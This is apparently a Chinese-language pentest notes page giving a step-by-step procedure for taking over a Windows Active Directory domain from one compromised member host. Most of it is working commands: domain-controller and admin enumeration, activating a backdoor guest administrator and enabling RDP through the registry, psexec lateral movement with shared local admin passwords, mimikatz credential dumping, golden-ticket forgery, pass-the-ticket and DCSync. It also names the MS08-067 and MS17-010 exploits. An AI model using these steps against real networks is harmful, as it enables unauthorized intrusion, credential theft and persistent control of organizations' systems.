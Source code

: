 # Intranet

---

## window域介绍

域计算机登录到域时，身份验证是采用kerberos协议在域控制器上进行，登录到此计算机时通过SAM来进行NTLM验证

一般域成员可以登录到域中所有工作站，不包括域控制器，管理员在域中可以设置用户登录可以登录到哪些计算机



## 流程

目的：拿到了域成员的控制权，通过域信息、登录IP次数出现最多的，定位域控、从其他的域计算机中抓取域管理员密码，然后拿下域控

1.找域控：

```
dsquery server                          #等等域控的主机名，如WIN-KMZ8MFWF5L8

net group "domain controllers" /domain  #得到WIN-KMZ8MFWF5L8$(去掉$)

net view                                #查看视图，备注servidor master ad 域控、dns域控可能性很大

ping 主机名                             #ping域控的主机名， 得到域控IP

net group "domain admins" /domain      #找域管理员

net user /domain    |net user 域用户 /domain    #找域所有成员
```

其他信息查看：

```
（net config workstation  #查询当前登录域  如pico.local

​    net accounts /domain   #查询域密码策略

​    net view /domain     #查看所有域

​    net view /domain:域名称 查看域内用户

​    net group "domain computers" /domain   #查看当前域的计算机列表

​    wmic qfe          #查询补丁信息

​    wmic os           #查看操作系统类型）
```

guest用户隐藏

```
net user  guest  /active:yes                      #激活guest用户

net localgroup  administrators  guest  /add       #将guest用户添加到

net user guest    密码                            #更改guest用户密码

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

2.因为整个内网很多台计算机，每个计算机的本地管理员的帐号和密码都是一样，除了域控（域控也可以试试），所以我们得到了本地管理员帐号密码的话可以直接使用登录其他计算机，并找出域管理员登录过的域计算机，就算注销掉也可以从内存中抓取密码hash

```
psexec \\IP -u administrator -p 密码 cmd  #获取IP的超级管理员的cmd

tasklist /v |find "域管理员名"
```

or

```
tasklist /s IP /u administrator /p 密码 /v |find "域用户名" #远程查看进程
```

批量操作：

```
psexec -accepteula @ip.txt -u administrator -p 密码 -c 1.bat

（ip.txt是ip ，1.bat是tasklist的指令）
```



3.找到域管理员登录过的IP的计算机进行登录，使用mimikatz抓取内存的密码

```
mimikatz log "privilege::debug" "lsadump::lsa /patch"  #pth攻击

mimikatz（管理员权限下运行）

kerberos::golden /user:域用户名 /domain:域名 /sid:   /krbtgt:密码hash    /ticket:test.kirbi

kerberos::ptt test.kirbi

在在另一个cmd中

klist   #查看缓存的票据

dir \\WIN-KMZ8MFWF5L8.pico.local\c$     #域控主机名.域名，使用票据传递进行查看
```

or

```
mimikatz
：：获取帮助
Privilege：：debug        提升权限
Sekurlsa：：logonpasswords 抓取密码
查看本地用户密码
```

or

```
dcsuync功能利用它可以从目录复制服务（DRS）的NTDS.DIT文件中检索密码哈希值。该项技术省去了直接使用域控制器进行身份验证的过程，因为它可以通过域管理员的权限从域的任何系统执行

lsadump::dcsync /domain:pentestlab.local /all /csv
```





4.如果dump不出域控密码，使用远程RPC请求，允许执行远程代码

```
魔波利用ms06-040  缓冲区溢出  针对netapi组件  

如果是域控是windows xp/2000/2003/2008等 可以是用ms08-067  针对netapi组件

wannacry利用ms17-010永恒之蓝攻击445传播病毒
```

可以在github上搜ms的扫描器

------------------------------------------------

## 内网穿透

[frp](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/Frp.html)



## dump超管密码

内网一般是windows系统

[mimakatz](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/mimakatz.html)



域信息收集

```
systeminfo   #看计算机信息、域、补丁
net time /domain  # 一般域控也做时间服务器，如果有代表在域里
net config workstation #工作域为域名，如果为WORKGROUP表示未域环境，登陆域表示当前用户是域用户（域名）还是本地用户（本地是计算机名）
net group “domain controllers” /domain  #在与里面能看到域控名$
ping 域控名  #能定位IP
net group “domain admins” /domain #定位域管理员名
域管：域名/域管理员名

```

